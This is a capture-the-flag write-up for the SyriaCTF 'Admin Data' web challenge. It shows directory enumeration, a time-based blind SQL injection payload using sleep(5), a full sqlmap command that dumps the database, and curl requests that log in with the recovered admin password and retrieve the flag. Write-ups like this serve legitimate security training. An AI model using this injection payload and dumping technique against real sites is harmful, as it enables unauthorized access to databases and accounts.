



# SyriaCTF – Admin Data

### not solved
* **Category:** Web Exploitation
* **Points:** 100

## Challenge

> only admin can get the flag, can you be one?
> http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/

## Solution 

The home page looks like a template with nothing suspicious so we go straight to login.php
we try logging in with username:admin , password:admin to see what happens but nothing is really interesting yet.
we throw the challenge root into dirbuster with the ```dirbuster/directory-list-2.3-medium.txt``` as a wordlist to enumerate files:


and we find this nice file tree after some time



two interesting files appear here (profile.php and settings.php), we try to open them in browser but we are directed to the login page so we try to get them with curl and .. it works!
we find the following code in the html content of settings.php 

`<link rel="stylesheet" type="text/javascript" href="270cba471dcab9eb51c321da8d1953c6/newFolder/f!le.js">`

we check that f!le:
```
// for developer: remember to change the function to GET request

function getInfo(value){

	if (value == null){

		alert("Please add a value here.");

	}

}

function nothing(url = "270cba471dcab9eb51c321da8d1953c6/newFolder/info.php", data, success) {

    var params = typeof data == 'string' ? data : Object.keys(data).map(
            function(k){ return encodeURIComponent(k) + '=' + encodeURIComponent(data[k]) }
        ).join('&');

    var xhr = window.XMLHttpRequest ? new XMLHttpRequest() : new ActiveXObject("Microsoft.XMLHTTP");
    xhr.open('POST', url);
    xhr.onreadystatechange = function() {
        if (xhr.readyState>3 && xhr.status==200) { success(xhr.responseText); }
    };
    xhr.setRequestHeader('X-Requested-With', 'XMLHttpRequest');
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send(params);
    return xhr;
}

// example request
// nothing('http://foo.bar/', 'uname=User', function(data){ console.log(data); });
```
so we find what seems to be an api endpoint `270cba471dcab9eb51c321da8d1953c6/newFolder/info.php` 
and a comment saying `remember to change the function to GET request`
so we get that page with GET parameter `uname=User` we get a result `Exist`, then we try `uname=admin` and we get the same result, 
fast forward ... we try `uname=uuu'or sleep(5) --' and here we have it! response was delayed 5 second so it looks like we can trigger a time based blind sql injection
```
$ ./sqlmap.py -u http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/270cba471dcab9eb51c321da8d1953c6/newFolder/info.php?uname=User --dump --level=3 --risk=2
```
it found that the `uname` parameter is vulnerable. it takes some time to retrieve the whole database :(


so we have the admin password, let's go login.
we login as admin
```
$ curl -XPOST http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/login.php -d"username=admin&password=G3t_in_Admin_Z0ne" -i
```
we find an interesting header in the HTTP response `Location: getflag.php`
so let's get it!
```
$ curl http://ec2-54-93-124-219.eu-central-1.compute.amazonaws.com/admindata/getflag.php

<script>alert('it\'s not easy, try hard.');</script>FLAG{5ql_!njection_L0L}
```
and there we have it!!

flag: `FLAG{5ql_!njection_L0L}`

(not) solved by t0mcr8se (while sliding over cars)
